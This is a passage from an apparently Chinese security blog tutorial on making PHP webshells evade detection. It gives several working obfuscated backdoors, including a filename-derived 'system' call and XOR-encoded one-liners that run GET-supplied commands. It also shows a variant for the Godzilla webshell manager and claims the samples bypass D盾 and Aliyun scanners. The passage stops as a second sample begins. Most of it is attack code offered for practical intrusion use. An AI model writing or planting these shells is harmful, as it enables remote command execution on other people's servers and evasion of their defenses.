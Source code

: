 ```php
$fi = new FilesystemIterator(dirname(__FILE__));
$f = '';
foreach($fi as $i){
    if (substr($i->__toString(), -6,6)=='aabyss')  //判断后缀名为.aabyss的文件（其他特殊后缀也行）
        $f = substr($i->__toString(), -13,6);      //从system.aabyss提取出system高危函数
}
$f($_GET['b']);
```

为什么要写入为 `system.aabyss` 这个文件名呢，因为特殊后缀能让代码快速锁定文件，不至于提取文件名提取到其他文件了

## 12# 多姿势配合免杀

将以上提到的相关姿势，进行多种配合嵌套，实现免杀效果

### 12.1 样例一

刚开始看这个样例我还是挺惊讶的，仔细分析了一波，发现还是挺简单的，但重在思路

这个样例使用了异或+变换参数的手法，成功规避了正则匹配式，具有实战意义

```php
<?=~$_='$<>/'^'{{{{';@${$_}[_](@${$_}[__]);
```
这时候，就可以执行GET传参：`?_=system&__=whoami` 来执行whoami命令

由8.1讲到PHP中如何异或，我们就先把最前面这部分拆出来看看
```php
<?=~$_='$<>/'^'{{{{';
//即 '$<>/' ^ '{{{{'
//即 "$<>/" 这部分字符串与后面 "{{{{" 这部分字符串异或
```
所以由我们前面所学的知识，加上自己动手实践一下，可以发现异或结果为 `_GET`

所以整个PHP语句解密后，再将 `_` 替换为 `a`，将 `__` 替换为 `b`，则原PHP转化为：
```php
$_GET['a']($_GET['b'])
```
当我们给 `a` 传 `system`，给 `b` 传 `whoami`，原式就会变成这样
```php
system('whoami');
```

既然上面的代码你看懂了，那不妨看一下下面魔改的代码：
```php
<?=~$_='$<>/'^'{{{{';$___='$}4(/' ^ '{-{{{';@${$_}[_](@${$___}[__]);
```
直接用 Godzilla 哥斯拉来连接，如下：

![魔改连接哥斯拉.png](https://blog.zgsec.cn/usr/uploads/2023/06/432722789.png)

当然这里使用到 `assert` 高危函数，只能用于 `php` 在 `5.*` 的版本，相关姿势读者不妨自行拓展一下哈哈~

### 12.2 样例二

这个免杀马是最近捕获到的，可以轻松过D盾、阿里云等一众查杀引擎~
